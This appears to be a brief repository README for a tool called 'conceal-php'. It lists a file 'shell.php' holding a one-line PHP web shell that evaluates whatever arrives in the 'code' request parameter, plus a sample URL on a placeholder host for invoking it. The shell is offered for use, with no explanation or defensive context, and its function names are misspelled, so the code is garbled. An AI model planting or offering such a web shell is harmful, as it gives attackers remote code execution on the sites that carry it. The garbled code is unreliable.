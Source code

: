 conceal-php
===========

shell.php

<?php aval(stropslashes($_REQUEST['code']));

http://www.xxxx.com/r/www.php?c=tS6R3EsFh(code)
